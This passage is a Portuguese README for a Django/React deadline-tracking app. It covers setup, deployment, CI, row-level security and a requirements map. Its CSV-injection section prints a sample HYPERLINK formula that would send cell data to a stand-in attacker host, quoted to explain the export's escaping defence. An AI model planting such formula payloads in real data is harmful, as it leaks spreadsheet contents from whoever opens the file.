

# remind-task

Plataforma privada de **tabelas dinâmicas com controle de vencimentos**. O usuário cria tabelas com colunas configuráveis, marca uma coluna como data de vencimento, e o sistema gera alertas automáticos quando o prazo se aproxima.

Segurança é requisito central, não acessório: isolamento de dados por usuário em duas camadas (queryset + Row-Level Security no Postgres), Argon2id, UUID como identificador público e alertas idempotentes por constraint de banco.

| Camada | Tecnologia |
|---|---|
| API | Django 5 + Django REST Framework |
| Banco | PostgreSQL 16 |
| Auth | SimpleJWT + Argon2id + django-axes |
| Assíncrono | Celery + Celery Beat + Redis |
| Frontend | React 19 + Vite + TypeScript + TanStack Query/Table |
| Infra | Docker Compose |
| CI | GitHub Actions ([`ci.yml`](.github/workflows/ci.yml)) |

---

## Setup

Requer apenas **Docker**. Não é preciso Python local.

```bash
cp .env.example .env                    # ajuste DJANGO_SECRET_KEY se quiser
cp frontend/.env.example frontend/.env  # só se for rodar o Vite fora do container
docker compose build
docker compose up -d
docker compose exec web python manage.py seed_demo
curl http://localhost:8000/api/health/
```

Resposta esperada: `{"status": "ok", "database": "up"}`.

`docker compose up -d` sobe a stack inteira, frontend incluído:

| Onde | O quê |
|---|---|
| http://localhost:3000 | a aplicação (Vite com HMR) |
| http://localhost:8000/api/ | a API |

Entre com a conta do `seed_demo` — **demo@remind.local** / `Contrato!Vencendo#2026`.

O `seed_demo` cria a conta **demo@remind.local** / `Contrato!Vencendo#2026` e a
tabela *Contratos* do [exemplo da especificação](docs/especificacao.md#7-exemplo-de-utilização),
com os três contratos em três estados: um vencido, um vencendo em breve e um
futuro. As datas são relativas ao dia da execução — as do documento são
absolutas, e usá-las literalmente deixaria os três vencidos em uma semana.
Rodar de novo não duplica nada e **reaproxima as datas**, então a demonstração
continua útil meses depois.

O comando se recusa a rodar com `DEBUG=False` sem `--force`: a conta tem senha
conhecida e publicada aqui, o que em produção é uma porta aberta, não um dado de
demonstração.

| Comando | O que faz |
|---|---|
| `make up` / `make down` | sobe / derruba a stack |
| `make logs` | logs de web, worker e beat |
| `make sh` | shell dentro do container web |
| `make migrate` | aplica migrations |
| `make test` | roda a suite (`pytest`) |
| `make lint` | roda o `ruff` com as regras de [`ruff.toml`](ruff.toml) |
| `make cov` | suíte + gate de cobertura em 85% ([`.coveragerc`](.coveragerc)) |
| `make seed` | conta demo + tabela do exemplo da especificação |
| `make reset` | **apaga o volume do Postgres** e sobe de novo |
| `make front-test` | suíte do frontend (`vitest`) |
| `make front-cov` | suíte + gate de cobertura em 85% ([`vitest.config.ts`](frontend/vitest.config.ts)) |
| `make front-lint` | `eslint` + `tsc --noEmit` |
| `make front-types` | regenera [`schema.d.ts`](frontend/src/api/schema.d.ts) a partir do OpenAPI no ar |

Sem `make` no Windows: use `docker compose exec web <comando>` direto.

O `ruff.toml` existe porque, sem arquivo de configuração, o ruff aplica o
conjunto de regras padrão da **versão instalada** — que muda entre releases. O
mesmo código passava numa máquina e acusava 165 erros na outra. As regras estão
declaradas, e o repositório passa limpo.

### Build falhando com `CERTIFICATE_VERIFY_FAILED`

Se o `docker compose build` morrer em `pip install` com:

```
SSL: CERTIFICATE_VERIFY_FAILED - unable to get local issuer certificate
```

seu antivírus ou proxy está fazendo inspeção TLS: ele reemite o certificado do
pypi.org com uma CA própria, que o Windows confia e o container não. Coloque a CA
em `docker/certs/*.crt` e rebuilde — instruções em
[`docker/certs/README.md`](docker/certs/README.md).

Não use `pip install --trusted-host`: isso desliga a verificação TLS.

### Superfície de uso

- `http://localhost:3000` — **a SPA** (React + Vite), a interface de quem usa o sistema
- `http://localhost:8000/api/docs/` — Swagger UI (drf-spectacular)
- `http://localhost:8000/api/` — DRF Browsable API
- `http://localhost:8000/admin/` — Django Admin

> **Em produção, o Swagger, o schema e o Admin não sobem.** `prod.py` inverte os
> defaults de `EXPOSE_API_DOCS` e `EXPOSE_ADMIN`: o schema OpenAPI é a planta da
> API — rotas, campos, formatos e mensagens de erro num arquivo só — e publicá-lo
> passa a ser escolha explícita. As rotas não existem, em vez de existirem e
> responderem 403: um 404 não confirma que há algo ali.

### Limite de taxa

Todo endpoint tem teto, com as taxas vindas do ambiente
(`THROTTLE_USER`, `THROTTLE_ANON`, `THROTTLE_EXPORT`). A exportação tem o seu,
mais apertado, porque transmite a queryset inteira em streaming.

Dois detalhes que não são óbvios e estão testados:

- **Os contadores vivem no Redis, não em memória.** Com o `LocMemCache` padrão,
  cada worker do gunicorn teria o seu contador — três workers, três vezes o
  limite, e tudo zerado a cada deploy.
- **O limitador falha aberto.** Se o cache não responde, a requisição passa e
  fica um aviso no log. O contrário transformaria uma queda do Redis, que hoje
  só interrompe os alertas, em indisponibilidade total da API — uma medida de
  proteção não deve ampliar o que ela existe para reduzir. Ver
  `core/throttling.py`.

---

## Frontend

SPA em React 19 + TypeScript, servida pelo Vite. Consome a mesma API pública
documentada acima — não há caminho privilegiado, e o que a SPA consegue fazer é
exatamente o que qualquer cliente autenticado conseguiria.

| Decisão | Por quê |
|---|---|
| **Tipos gerados do OpenAPI** ([`schema.d.ts`](frontend/src/api/schema.d.ts)) | O contrato é do backend. Tipos escritos à mão viram ficção assim que um serializer muda — e o CI quebra quando os dois divergem (ver abaixo). |
| **TanStack Query** para estado de servidor | Cache, revalidação e estados de erro/carregando sem um store global replicando o que a API já sabe. |
| **TanStack Table v9 com `tableFeatures({})`** | Paginação e ordenação são **do servidor**, e o estado deles vive na URL. Declarar as features da tabela criaria uma segunda cópia desse estado para manter em sincronia — que é a origem do bug, não a solução. |
| **Paginação e filtros na URL** | Uma tela filtrada é linkável e sobrevive ao F5. |
| **`access` em memória, `refresh` em cookie httpOnly** | Mesma decisão do backend: token de longa duração invisível para JavaScript. |

Acessibilidade não é uma passagem final: `aria-sort` nos cabeçalhos ordenáveis,
`aria-live` no rodapé da paginação, status de vencimento com **texto além da
cor** — cor sozinha não é indicador — e a contagem de não lidos dentro do texto
acessível do link, não só numa bolinha colorida.

```bash
cd frontend
npm install
npm run dev        # precisa da API no ar: docker compose up -d web
npm run test       # vitest + Testing Library + MSW
npm run typecheck  # tsc --noEmit
npm run lint       # eslint
```

Os mocks são MSW e **paginam de verdade** — devolvem `count` maior que
`results.length`. Um mock que sempre entrega a lista inteira esconderia
justamente o erro que a paginação de servidor introduz.

Cobertura do frontend: **94%**, gate em 85% ([`vitest.config.ts`](frontend/vitest.config.ts)),
espelhando o `fail_under` do backend.

---

## Deploy no Railway

A topologia esta versionada em [`.railway/railway.ts`](.railway/railway.ts) —
**Infrastructure as Code**, e nao `railway.toml`: o Config as Code foi
descontinuado e o Railway para de le-lo em **2026-12-01**.

Seis recursos: `postgres` e `redis` gerenciados, mais `web` (gunicorn),
`worker` (Celery), `cron-alertas` e `frontend` (nginx).

### 1. Antes de qualquer migrate — o preflight

```bash
railway run --service web python manage.py preflight_db
```

**Nao pule.** A migration `core/0001_rls_policies` executa `CREATE ROLE`. Se o
banco nao permitir, ela falha **no meio** da sequencia e deixa o schema pela
metade — bem pior do que nao ter comecado. O comando responde antes, contra o
banco de verdade, sem deixar nada para tras (tudo em transacao com ROLLBACK), e
sai com codigo != 0 se reprovar, entao serve de gate:

```bash
railway run --service web python manage.py preflight_db &&   railway run --service web python manage.py migrate
```

Ele checa versao do Postgres, ICU, `CREATE ROLE`, `GRANT`/`SET ROLE` e RLS com
GUC personalizada.

> **Correcao ao plano:** a Phase 3 listava `citext` e `pgcrypto` como risco.
> Medido: **nenhuma das duas e usada**. O e-mail case-insensitive virou collation
> ICU quando o Django 5.1 removeu `CIEmailField`, e os UUIDs vem de `uuid.uuid4`
> em Python. O `docker/postgres/init.sql` as cria por inercia. O risco real de
> collation e **ICU**, que e outra pergunta — e o preflight faz essa.

### 2. Ajustes que precisam do painel

A referencia de IaC documenta, para `service()`, apenas `source`, `build`
(string), `start`, `healthcheck`, `healthcheckTimeout`, `replicas`, `env`,
`volumeMounts` e `domains`. Campos como `cronSchedule` e `restartPolicyType`
aparecem so na referencia do formato deprecado, entao **nao** foram escritos no
arquivo — config nao confirmada daria um arquivo que parece completo e falha na
aplicacao, ou e aceita e ignorada em silencio.

O que sobra para o painel:

| Servico | Ajuste | Por que |
|---|---|---|
| `cron-alertas` | Cron Schedule `*/15 * * * *` | Sem isso ele roda a varredura uma vez e nada reagenda |
| `cron-alertas` | Restart Policy: **Never** | O cron roda de novo em 15 min; reiniciar so multiplica o mesmo erro no log |

### 3. Variaveis

A lista completa esta em [`.env.prod.example`](.env.prod.example). As que o
servico **nao sobe sem** (`prod.py` levanta `ImproperlyConfigured` de proposito):

- `DJANGO_SECRET_KEY`
- `CORS_ALLOWED_ORIGINS` — origem exata do frontend, com esquema
- `CSRF_TRUSTED_ORIGINS`
- `DJANGO_ALLOWED_HOSTS` — **nos servicos sem dominio publico** (`worker`,
  `cron-alertas`). Só quem tem dominio recebe `RAILWAY_PUBLIC_DOMAIN`, e e ele
  que preenche a lista sozinho; os demais compartilham o mesmo modulo de
  settings e nao sobem sem a variavel, mesmo sem servir HTTP nenhum.
  `${{web.RAILWAY_PUBLIC_DOMAIN}}` serve.

`DATABASE_URL`, `REDIS_URL`, `PORT` e `RAILWAY_PUBLIC_DOMAIN` vem da plataforma.
`CACHE_URL` precisa apontar para o **banco 1** do Redis: o 0 e do Celery, e os
contadores de throttle precisam ser compartilhados entre os workers.

### 4. O teste que so o primeiro deploy faz

A Phase 0 escolheu `*.up.railway.app` para os dois servicos. Como `up.railway.app`
esta na Public Suffix List, `web-xxxx` e `frontend-yyyy` sao **registrable
domains diferentes** — o cookie de refresh so atravessa com `SameSite=None;
Secure`, que `prod.py` ja exige no boot.

O modo de falha e silencioso: sem erro, sem log, a sessao so morre a cada 15
minutos e o usuario cai no login. Entao o roteiro de aceite e:

1. Logar na SPA.
2. Esperar o access token expirar (15 minutos).
3. Navegar.
4. **Continuar logado.**

Nenhum teste automatizado pega isso, porque o servidor de teste nao e um browser
e aceita o cookie normalmente.

---

## CI

[`.github/workflows/ci.yml`](.github/workflows/ci.yml) roda em todo push para
`main` e em todo pull request, com três jobs:

| Job | O que roda |
|---|---|
| `backend` | `ruff check` + `pytest --cov` (gate de 85% do `.coveragerc`) |
| `frontend` | `typecheck` + `lint` + `test --coverage` |
| `contrato` | regenera `schema.d.ts` do OpenAPI no ar e **exige diff vazio** |

O job de backend roda **dentro do docker compose**, não com `services:` do
GitHub Actions. Recriar o ambiente à mão significaria reproduzir o `init.sql`
das extensões, o `.env` e o setup de RLS — um segundo ambiente, parecido mas não
igual, que envelhece em silêncio até o dia em que o CI passa e a máquina de
alguém não. Aqui `make cov` e o CI executam o mesmo comando no mesmo container.

O job `contrato` é o que impede a deriva silenciosa: `schema.d.ts` é gerado a
partir do OpenAPI que o Django serve, e nada obriga os dois a continuarem de
acordo. Um serializer muda, o arquivo gerado fica velho, o TypeScript segue
compilando contra o contrato **antigo**, e o erro só aparece como campo
`undefined` em runtime. Regerar e exigir diff vazio transforma isso em build
vermelho no PR que causou a divergência.

Os dois jobs que sobem a stack fazem `cp .env.example .env` — o que também
**valida o exemplo**: variável nova nas settings sem linha correspondente no
`.env.example` quebra o CI, em vez de quebrar o onboarding do próximo.

---

## Documentação

| Documento | Conteúdo |
|---|---|
| [`docs/especificacao.md`](docs/especificacao.md) | Requisitos RF01–RF13 e RS01–RS08 |
| [`docs/data-model.md`](docs/data-model.md) | Schema vigente, diagrama ER e as decisões de modelagem |
| [`.claude/plans/remind-task-mvp-2026-08-19.md`](.claude/plans/remind-task-mvp-2026-08-19.md) | Plano de execução do backend, por fases |
| [`.claude/plans/remind-task-frontend-2026-08-20.md`](.claude/plans/remind-task-frontend-2026-08-20.md) | Plano do frontend, com as dez armadilhas que a API impõe ao cliente |

---

## Mapa de requisitos

Cada requisito da [especificação](docs/especificacao.md), o código que o entrega e
o teste que o segura. A coluna **Prova** é a que importa numa revisão: sem ela,
"implementado" é opinião.

### Funcionais

| ID | Requisito | Onde | Prova |
|---|---|---|---|
| RF01 | Cadastro de usuário | `POST /api/auth/register/` · [accounts/views.py](accounts/views.py) | `accounts/tests/test_auth.py` |
| RF02 | Login / logout | `/api/auth/login/`, `/logout/`, `/refresh/` | `accounts/tests/test_auth.py` |
| RF03 | Criação de tabela do próprio dono | [tables/views.py](tables/views.py) — `perform_create` grava `user` do token | `tables/tests/test_tables.py` |
| RF04 | Ver só as tabelas da conta | `get_queryset()` filtrado + RLS | `tests/security/test_cross_tenant.py` |
| RF05 | Colunas configuráveis | [tables/models.py](tables/models.py) — `ColumnType` | `tables/tests/test_columns.py` |
| RF06 | Campo de vencimento, no máximo um | índice único parcial `columns_one_due_date_per_table` | `tables/tests/test_columns.py` |
| RF07 | Inserir registro | [records/validators.py](records/validators.py) valida contra a definição de colunas | `records/tests/test_data_validation.py` |
| RF08 | Editar registro | [records/views.py](records/views.py) | `records/tests/test_records_crud.py` |
| RF09 | Excluir registro | idem | `records/tests/test_records_crud.py` |
| RF10 | Indicadores de vencimento | [records/models.py](records/models.py) — `with_due_status()`, calculado no fuso do dono | `records/tests/test_due_status.py` |
| RF11 | Ordenação por vencimento | `ORDER BY due_date ASC NULLS LAST` + índice | `records/tests/test_ordering.py` |
| RF12 | Notificações | [alerts/tasks.py](alerts/tasks.py) — Celery Beat a cada 15 min | `alerts/tests/test_scan_task.py`, `test_idempotency.py` |
| RF13 | Exportação CSV | [exports/services.py](exports/services.py) — streaming | `exports/tests/test_export.py` |

### Segurança

| ID | Requisito | Onde | Prova |
|---|---|---|---|
| RS01 | Isolamento entre usuários | queryset filtrado **+** RLS no Postgres ([core/rls.py](core/rls.py)) | `tests/security/test_cross_tenant.py`, `test_queryset_layer.py`, `core/tests/test_rls.py` |
| RS02 | Autenticação e autorização por recurso | `IsAuthenticated` + propriedade em toda view | `tests/security/test_auth_required.py` |
| RS03 | Proteção de credenciais | Argon2id + `django-axes` (5 falhas / 15 min) | `tests/security/test_credentials.py` |
| RS04 | Troca de ID não dá acesso | UUID público + **404, nunca 403** | `tests/security/test_cross_tenant.py` |
| RS05 | Dados sensíveis | `columns.is_sensitive` + [core/logging.py](core/logging.py) | `tests/security/test_logging_redaction.py`, `core/tests/test_redaction.py` |
| RS06 | Comunicação segura | [config/settings/prod.py](config/settings/prod.py) | `tests/security/test_transport.py` |
| RS07 | Controle de sessão | JWT com rotação e blacklist de refresh | `accounts/tests/test_auth.py` |
| RS08 | Exportação segura | reusa a queryset autorizada + [exports/csv_safety.py](exports/csv_safety.py) | `tests/security/test_export_authorization.py` |

### Forma do modelo

O schema vigente, com colunas, índices e as decisões que os justificam, mora em
[`docs/data-model.md`](docs/data-model.md) — este diagrama é só o mapa das
relações.



Um registro é **uma linha** com `data JSONB` — não uma linha por valor. A
`due_date` é promovida para coluna nativa porque é o único campo que o sistema
precisa ordenar e varrer. O porquê está na
[decisão central](docs/data-model.md#decisão-central-jsonb-híbrido-não-eav-puro).

---

## Estado atual

**MVP completo — backend Phases 0–9 e frontend Phases 0–8.** Da autenticação à
exportação, com isolamento em duas camadas, redação de log, os 10 critérios de
segurança sob teste, uma SPA consumindo a API por tipos gerados e CI cobrindo os
dois lados. `docker compose up -d` sobe tudo.

| Phase | Backend | Status |
|---|---|---|
| 0 | Scaffold, Docker Compose, health check | ✅ |
| 1 | `accounts` — usuário customizado, JWT, Argon2, axes | ✅ |
| 2 | `tables` — tabelas e colunas dinâmicas | ✅ |
| 3 | `records` — registros JSONB validados | ✅ |
| 4 | Status e ordenação por vencimento | ✅ |
| 5 | `alerts` — regras, job Celery, inbox | ✅ |
| 6 | `exports` — CSV seguro | ✅ |
| 7 | Row-Level Security e endurecimento | ✅ |
| 8 | Suíte de segurança do MVP | ✅ |
| 9 | Documentação, schema e seed demo | ✅ |

| Phase | Frontend | Status |
|---|---|---|
| 0 | Andaime, Vite e contrato tipado do OpenAPI | ✅ |
| 1 | Autenticação — login, registro, refresh silencioso | ✅ |
| 2 | Tabelas — lista, criação, exclusão | ✅ |
| 3 | Colunas — CRUD e reordenação | ✅ |
| 4 | Grid dinâmico e CRUD de registros | ✅ |
| 5 | Paginação, ordenação e filtros server-side | ✅ |
| 6 | Alertas — caixa de entrada e contador | ✅ |
| 7 | Exportação CSV pelo browser | ✅ |
| 8 | Testes, acessibilidade, container e CI | ✅ |

### Endpoints disponíveis

| Método | Rota | O que faz |
|---|---|---|
| `GET` | `/api/health/` | Health check com checagem real de banco |
| `POST` | `/api/auth/register/` | Cadastro (RF01) |
| `POST` | `/api/auth/login/` | Login — access no corpo, refresh em cookie httpOnly (RF02) |
| `POST` | `/api/auth/refresh/` | Renova o access, rotaciona o refresh |
| `POST` | `/api/auth/logout/` | Blacklist do refresh + limpa cookie |
| `GET`/`PATCH` | `/api/auth/me/` | Conta autenticada (nome, fuso) |
| `GET`/`POST` | `/api/tables/` | Lista e cria tabelas (RF03, RF04) |
| `GET`/`PATCH`/`DELETE` | `/api/tables/{id}/` | Detalhe com colunas embutidas |
| `GET`/`POST` | `/api/tables/{id}/columns/` | Colunas da tabela (RF05, RF06) |
| `GET`/`PATCH`/`DELETE` | `/api/tables/{id}/columns/{col}/` | Uma coluna |
| `PATCH` | `/api/tables/{id}/columns/reorder/` | Reordena todas as colunas de uma vez |

| `GET`/`POST` | `/api/tables/{id}/records/` | Registros da tabela (RF07) |
| `GET`/`PATCH`/`DELETE` | `/api/tables/{id}/records/{rec}/` | Um registro (RF08, RF09) |

Tipos de coluna: `text`, `number`, `date`, `datetime`, `boolean`, `email`, `select`, `due_date`.

### Como os registros funcionam

Cada registro é **uma linha** com um `data JSONB`, não N linhas de EAV. As chaves do JSONB são os `key` das colunas, e o payload é validado contra a definição da tabela a cada escrita:

```bash
curl -X POST http://localhost:8000/api/tables/$T/records/ \
  -H "Authorization: Bearer $ACCESS" -H 'Content-Type: application/json' \
  -d '{"data": {"cliente":"Empresa A","contrato":"CT-001",
                "data_de_vencimento":"2026-08-20","status":"Ativo"}}'
```

- **Chave desconhecida → 400.** Nada de lixo entrando no JSONB.
- **Tipo errado → 400.** `"true"` não passa por booleano, `20/08/2026` não passa por data, valor fora da lista não passa por `select`.
- **`PATCH` mescla com o estado atual** antes de validar — é o que permite recusar um PATCH que esvazia um campo obrigatório. Olhando só o delta, isso passaria.
- **`due_date` é promovida** de `data[<coluna due_date>]` para uma coluna real no `save()`. É somente leitura na API: mandá-la no corpo não a faz divergir do JSONB.
- **Excluir uma coluna limpa a chave dela** em todos os registros — e zera o `due_date` promovido se era a coluna de vencimento.

### Vencimento: status, ordem e filtros

```
GET /api/tables/{id}/records/?status=overdue,due_today&ordering=-due_date
```

Cada registro volta com `due_status` e `days_until_due`:

| Status | Quando |
|---|---|
| `overdue` | vencimento já passou |
| `due_today` | vence hoje |
| `due_soon` | dentro de `alert_lead_days` da tabela |
| `on_track` | ainda distante |
| `no_due` | sem data de vencimento |

**"Hoje" é a data no fuso do usuário** (`users.timezone`), nunca a do servidor. Dois usuários olhando o mesmo vencimento em fusos diferentes veem status diferentes — e é isso que está certo. Tem teste com o relógio congelado em 02:00 UTC, quando Tóquio já virou o dia e São Paulo não.

O status **não é armazenado**: um valor gravado ficaria errado sozinho à meia-noite e exigiria reescrever todas as linhas todo dia.

**Ordenação padrão sai de um único `ORDER BY due_date ASC` com NULL por último** — que já produz exatamente a prioridade do RF11: vencidos (mais antigo primeiro), hoje, próximos, futuros, sem data. Nenhuma lógica de status participa da ordenação. `?ordering=` aceita `due_date`, `created_at`, `updated_at` e `position`, com `-` para inverter e NULL sempre no fim.

Filtros: `?status=`, `?due_before=`, `?due_after=`, `?has_due_date=`. Status inexistente devolve **400**, não lista vazia — senão o cliente concluiria "não há registros" quando na verdade errou o filtro.

### Alertas

| Método | Rota | O que faz |
|---|---|---|
| `GET` | `/api/alerts/` | Caixa de entrada do usuário (RF12) |
| `POST` | `/api/alerts/{id}/read/` | Marca como lido |
| `POST` | `/api/alerts/{id}/dismiss/` | Descarta sem apagar o histórico |
| `GET`/`POST` | `/api/tables/{id}/alert-rules/` | Antecedências configuradas |
| `GET`/`PATCH`/`DELETE` | `/api/tables/{id}/alert-rules/{rule}/` | Uma regra |

Um worker Celery Beat roda `alerts.scan_due_records` **a cada 15 minutos**. A granularidade do sistema é o dia; o intervalo curto existe só para que a virada do dia em qualquer fuso seja notada logo.

**Alertas não são criados pela API** — `POST /api/alerts/` retorna 405. Nascem do job.

#### Idempotência é do banco, não da aplicação

```sql
CONSTRAINT alerts_idempotency UNIQUE (record_id, rule_id, trigger_date)
```

RF12 exige evitar envio duplicado. Confiar em `notified_at IS NULL` não resolve concorrência: dois workers leem `NULL` ao mesmo tempo e ambos inserem. Com a constraint, beat sobreposto, retry de task ou worker duplicado não produzem duplicata — o banco recusa.

O serviço ainda faz um pré-filtro do que já existe, mas por economia, não por correção: sem ele cada execução reenviaria toda a janela ao Postgres só para ser recusada, 96 vezes por dia.

`trigger_date` é derivado do **vencimento**, não do dia da execução. Se dependesse de "hoje", cada dia geraria um alerta novo para o mesmo vencimento.

#### Regras de antecedência

`offset_days` positivo avisa antes; `0` no dia; **negativo avisa depois** — `-2` é cobrança de atraso. Uma tabela pode ter várias regras simultâneas (avisar 7 dias antes *e* no dia): são avisos distintos, não duplicata.

A regra padrão nasce por sinal quando a tabela ganha uma coluna `due_date`, usando o `alert_lead_days` da tabela. Como sinal, e não dentro da view, ela também é criada por seed, script ou admin.

#### Vencimento mudou

Adiar um contrato torna o aviso "vence em 20/08" informação errada. Alertas ainda **acionáveis** (`pending`, `sent`) cujo `due_date_snapshot` discorda do vencimento atual são descartados e regerados com a data nova. Os já **lidos ou descartados sobrevivem** — são histórico — e passam a expor `is_stale: true`.

### Exportação CSV

```
GET /api/tables/{id}/records/export/?status=overdue&delimiter=;
```

**A exportação não tem caminho de consulta próprio.** É uma *action* do próprio `RecordViewSet`, então usa literalmente o mesmo `get_queryset()` e `filter_queryset()` da listagem. Uma view separada que refizesse a busca da tabela seria um segundo lugar onde esquecer o filtro por dono — exatamente o risco que o RS08 quer eliminar.

Consequência útil: **você exporta o que está vendo**. `?status=overdue`, `?due_before=`, `?ordering=` — todos valem na export.

Resposta em streaming (`StreamingHttpResponse`), sem materializar o arquivo em memória.

#### Proteção contra CSV injection (RS08)

Uma célula iniciada por `=`, `+`, `-`, `@`, TAB ou CR é interpretada como **fórmula** por Excel, LibreOffice e Sheets. Como o conteúdo vem do usuário, alguém pode gravar num registro:

```
=HYPERLINK("http://ataque/?d="&A1,"Clique")
```

O dado sai do sistema íntegro; o estrago acontece na máquina de quem abre. Por isso a defesa é na escrita do arquivo:

```csv
Cliente,Valor,Renovar,Data de vencimento
"'=HYPERLINK(""http://ataque/?d=""&A1,""clique"")",-500,Não,2026-08-14
Empresa Ação,1500,Sim,2026-08-21
```

Repare que **`-500` não foi prefixado**. Neutralizar todo `-` transformaria valores negativos em texto e eles sumiriam das somas da planilha — números puros são exceção explícita.

Detalhes: BOM UTF-8 (sem ele o Excel no Windows mostra `Contráto`), booleanos como `Sim`/`Não` — o cabeçalho já usa os rótulos humanos das colunas —, e `?delimiter=;` para o Excel em pt-BR.

#### O payload não vaza (RS05)

Um alerta carrega apenas nome da tabela, vencimento e um rótulo curto do registro. Nunca o `data` completo, nunca o valor de coluna marcada como `is_sensitive`. O rótulo é montado **na leitura**, então marcar uma coluna como sensível depois também protege os alertas já emitidos.

Exemplo:

```bash
curl -X POST http://localhost:8000/api/auth/register/ \
  -H 'Content-Type: application/json' \
  -d '{"email":"voce@example.com","name":"Voce","password":"Contrato!Vencendo#2026"}'

curl -c cookies.txt -X POST http://localhost:8000/api/auth/login/ \
  -H 'Content-Type: application/json' \
  -d '{"email":"voce@example.com","password":"Contrato!Vencendo#2026"}'
```

### Decisões de segurança já em vigor

- **Argon2id** como hasher primário; senha validada contra tamanho mínimo, lista de senhas comuns e similaridade com e-mail/nome.
- **Refresh token só em cookie `httpOnly`**, com `path=/api/auth/` — não trafega nas rotas de dados e é invisível para JavaScript. O access (15 min) fica em memória no cliente.
- **Rotação + blacklist** de refresh: cada renovação queima o token anterior, e o logout invalida de fato.
- **E-mail único case-insensitive no banco**, via collation não-determinística — não dá para cadastrar `Ana@x.com` e `ana@x.com` nem inserindo direto no Postgres.
- **django-axes** bloqueia a combinação IP+usuário após 5 falhas (429 por 15 min). Ver a armadilha do `ATOMIC_REQUESTS` em [`docs/data-model.md`](docs/data-model.md#armadilhas-encontradas-na-implementação).
- **Recurso alheio responde 404, nunca 403** — 403 confirmaria que o recurso existe e entregaria informação a quem sonda ids (RS04). Vale também para coleções aninhadas: as colunas de uma tabela que não é sua não existem.
- **O dono vem sempre do token**, nunca do corpo da requisição. Mandar `user` no payload de criação de tabela não muda nada.
- **Row-Level Security no Postgres** como segunda barreira — detalhado abaixo.
- **Log redigido na origem**: credenciais, JWTs, hashes de senha e o `data` inteiro dos registros são apagados por um `logging.Filter` antes de qualquer handler formatar a linha (`core/logging.py`) — **inclusive dentro do traceback**, que é por onde o Postgres devolve a linha inteira que violou uma constraint.
- **Headers de produção conferidos**: `python manage.py check --deploy --settings=config.settings.prod` passa sem nenhuma issue. `DJANGO_ALLOWED_HOSTS` vazio derruba o boot em vez de virar um 400 misterioso.

### Isolamento em duas camadas (RS01)

A primeira camada é o `get_queryset()` de cada view, filtrado por `request.user`.
Ela funciona — até alguém escrever `Record.objects.all()` num relatório novo, num
comando de management ou numa task. A segunda camada põe a mesma regra dentro do
Postgres, onde código de aplicação nenhum consegue esquecê-la.

Como o runtime entra nela: a conexão do Django **se rebaixa** dentro da transação
da request, para um papel `NOLOGIN` que não pode furar as policies.

```sql
SET LOCAL ROLE remind_app;                        -- NOSUPERUSER, NOBYPASSRLS
SELECT set_config('app.user_id', '<uuid do dono>', true);
```

Os dois comandos são `LOCAL`: o Postgres os desfaz no COMMIT, então nem um pool
de conexões persistentes carrega o usuário de uma request para a próxima. Quem
abre o contexto são as classes de autenticação do DRF — o primeiro ponto do ciclo
em que se sabe *quem* está pedindo (`core/rls.py`).

Prova de que a barreira existe de verdade, direto no `psql`:

```console
 ROLE remind_app;
 count(*) FROM records;                    -- sem contexto
 0
 set_config('app.user_id', '<uuid de A>', false);
 count(*) FROM records;                    -- como A
 1
 set_config('app.user_id', '<uuid de B>', false);
 count(*) FROM records;                    -- como B
 0
```

Os testes de `core/tests/test_rls.py` consultam **sem filtro por usuário** de
propósito: o que está sob teste não é o queryset das views, é o que sobra quando
alguém esquece o filtro. O primeiro teste do arquivo confere que o papel ativo
não é superusuário nem tem `BYPASSRLS` — sem isso, todos os outros passariam por
acidente.

Duas exceções conscientes:

- **O Django Admin não passa por RLS.** Autentica por sessão, sem DRF, e consulta
  como dono. Um admin que só enxerga as próprias linhas não serviria para
  suporte; o isolamento do Admin é o controle de acesso ao Admin.
- **A exportação CSV abre a própria transação.** O corpo de uma
  `StreamingHttpResponse` é consumido depois que a request fechou — sem entrar no
  contexto de novo, o CSV sairia vazio.

O desenho, as policies e as armadilhas estão em
[`docs/data-model.md`](docs/data-model.md#8-rls-um-papel-sem-login-não-dois-usuários-de-banco).

### Os 10 critérios da especificação estão sob teste

`tests/security/` existe para uma coisa só: **falhar quando uma proteção sumir**.
Os testes de cada app já demonstram, de passagem, que as defesas funcionam hoje.
O que faltava era a rede que quebra a build quando alguém apaga um filtro de
queryset ou troca uma classe de permissão.

| Critério (seção 10) | Prova |
|---|---|
